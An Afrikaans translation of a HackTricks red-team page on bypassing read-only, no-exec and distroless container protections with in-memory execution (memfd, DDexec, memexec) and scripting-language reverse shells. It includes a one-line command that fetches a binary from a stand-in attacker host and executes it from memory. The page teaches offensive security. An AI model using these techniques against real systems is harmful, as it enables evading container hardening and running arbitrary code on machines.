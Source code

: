 # Bypass FS beskerming: lees-slegs / geen-uitvoer / Distroless

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hacking-loopbaan** en die onhackbare wil hack - **ons is aan die aanstel!** (_vloeiende Pools geskrewe en gesproke vereis_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In die volgende videos kan jy die tegnieke wat op hierdie bladsy genoem word, meer diepgaand verduidelik vind:

* [**DEF CON 31 - Verkenning van Linux-geheue-manipulasie vir Steek en Ontwyking**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth-indringings met DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## lees-slegs / geen-uitvoer scenario

Dit word al hoe meer algemeen om Linux-masjiene te vind wat gemonteer is met **lees-slegs (ro) lêersisteem-beskerming**, veral in houers. Dit is omdat dit maklik is om 'n houer met 'n ro lêersisteem te hardloop deur **`readOnlyRootFilesystem: true`** in die `securitycontext` in te stel:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Nogtans, selfs as die lêersisteem as ro gemonteer is, sal **`/dev/shm`** steeds skryfbaar wees, so dit is vals dat ons niks op die skyf kan skryf nie. Hierdie vouer sal egter **gemonteer word met geen-uitvoer beskerming**, so as jy 'n binêre lêer hier aflaai, **sal jy dit nie kan uitvoer nie**.

{% hint style="warning" %}
Vanuit 'n rooi span-perspektief maak dit dit **ingewikkeld om binêre lêers af te laai en uit te voer** wat nie reeds in die stelsel is nie (soos agterdeure of enumereerders soos `kubectl`).
{% endhint %}

## Maklikste omseiling: Skripte

Let daarop dat ek van binêre lêers gepraat het, jy kan **enige skrip uitvoer** solank die tolk binne die masjien is, soos 'n **skulpskrip** as `sh` teenwoordig is of 'n **python-skrip** as `python` geïnstalleer is.

Nogtans is dit nie net genoeg om jou binêre agterdeur of ander binêre gereedskap wat jy mag nodig hê, uit te voer nie.

## Geheue-omseilings

As jy 'n binêre lêer wil uitvoer maar die lêersisteem dit nie toelaat nie, is die beste manier om dit te doen deur dit vanaf die geheue uit te voer, aangesien die **beskerming nie daarop van toepassing is nie**.

### FD + exec-systeemafronding

As jy kragtige skripskrywers binne die masjien het, soos **Python**, **Perl**, of **Ruby**, kan jy die binêre lêer om uit te voer vanaf die geheue aflaai, dit in 'n geheue-lêerbeskrywer stoor (`create_memfd` systeemafronding), wat nie deur daardie beskerming beskerm gaan word nie, en dan 'n **`exec` systeemafronding** aanroep wat die **fd as die lêer om uit te voer** aandui.

Hiervoor kan jy maklik die projek [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) gebruik. Jy kan dit 'n binêre lêer deurgee en dit sal 'n skrip in die aangeduide taal genereer met die **binêre lêer saamgedruk en b64 gekodeer** met die instruksies om dit te **dekodeer en te dekomprimeer** in 'n **fd** wat geskep is deur die `create_memfd` systeemafronding en 'n oproep na die **exec** systeemafronding om dit uit te voer.

{% hint style="warning" %}
Dit werk nie in ander skripskryftale soos PHP of Node nie omdat hulle geen **standaard manier het om rou systeemafrondings** vanaf 'n skrip te roep nie, so dit is nie moontlik om `create_memfd` te roep om die **geheue-fd** te skep om die binêre te stoor nie.

Verder sal dit nie werk om 'n **gewone fd** met 'n lêer in `/dev/shm` te skep nie, omdat jy nie toegelaat sal word om dit uit te voer nie omdat die **geen-uitvoer beskerming** van toepassing sal wees.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) is 'n tegniek wat jou in staat stel om die geheue van jou eie proses te **verander deur sy** **`/proc/self/mem`** te oorskryf.

Daarom kan jy deur die **samestellingskode te beheer** wat deur die proses uitgevoer word, 'n **shellcode** skryf en die proses "muteer" om **enige arbitrêre kode uit te voer**.

{% hint style="success" %}
**DDexec / EverythingExec** sal jou in staat stel om jou eie **shellcode** of **enige binêre** vanaf **geheue** te laai en **uit te voer**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Vir meer inligting oor hierdie tegniek, kyk op die Github of:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) is die natuurlike volgende stap van DDexec. Dit is 'n **DDexec shellcode gedemoniseer**, sodat elke keer as jy 'n **verskillende binêre lêer wil hardloop** hoef jy nie DDexec weer te begin nie, jy kan net memexec shellcode hardloop via die DDexec tegniek en dan **met hierdie duiwel kommunikeer om nuwe binêre lêers te stuur om te laai en te hardloop**.

Jy kan 'n voorbeeld vind van hoe om **memexec te gebruik om binêre lêers van 'n PHP omgekeerde dop te hardloop** in [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Met 'n soortgelyke doel as DDexec, laat die [**memdlopen**](https://github.com/arget13/memdlopen) tegniek 'n **makliker manier toe om binêre lêers in geheue te laai** om hulle later uit te voer. Dit kan selfs toelaat om binêre lêers met afhanklikhede te laai.

## Distroless Omgewing

### Wat is distroless

Distroless houers bevat slegs die **kaal minimum komponente wat nodig is om 'n spesifieke aansoek of diens te hardloop**, soos biblioteke en tydloop afhanklikhede, maar sluit groter komponente uit soos 'n pakkettebestuurder, dop, of stelselgereedskap.

Die doel van distroless houers is om die **aanvalsvlak van houers te verminder deur onnodige komponente te elimineer** en die aantal kwesbaarhede wat uitgebuit kan word te minimeer.

### Omgekeerde Dop

In 'n distroless houer mag jy dalk **nie eers `sh` of `bash`** vind om 'n gewone dop te kry nie. Jy sal ook nie binêre lêers soos `ls`, `whoami`, `id`... vind nie, alles wat jy gewoonlik in 'n stelsel hardloop.

{% hint style="warning" %}
Daarom sal jy **nie** in staat wees om 'n **omgekeerde dop** te kry of die stelsel te **opsom** soos jy gewoonlik doen nie.
{% endhint %}

Maar as die gekompromitteerde houer byvoorbeeld 'n flask web hardloop, dan is Python geïnstalleer, en dus kan jy 'n **Python omgekeerde dop** kry. As dit node hardloop, kan jy 'n Node omgekeerde dop kry, en dieselfde met meeste enige **skripseltaal**.

{% hint style="success" %}
Deur die skripseltaal te gebruik, kan jy die stelsel **opsom** deur die taalvermoëns te gebruik.
{% endhint %}

As daar **geen `read-only/no-exec`** beskerming is nie, kan jy jou omgekeerde dop misbruik om **binêre lêers in die lêersisteem te skryf** en hulle **uit te voer**.

{% hint style="success" %}
Tog sal hierdie soort houers gewoonlik hierdie beskermings hê, maar jy kan die **vorige geheue-uitvoeringstegnieke gebruik om dit te omseil**.
{% endhint %}

Jy kan **voorbeelde** vind van hoe om **sekere RCE kwesbaarhede te misbruik** om skripseltaal **omgekeerde dops** te kry en binêre lêers van geheue uit te voer in [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

As jy belangstel in 'n **hakerloopbaan** en wil die onhakbare hak - **ons is aan die aanstel!** (_vloeiende Pools geskrewe en gespreek benodig_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Leer AWS hak van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **laai HackTricks af in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
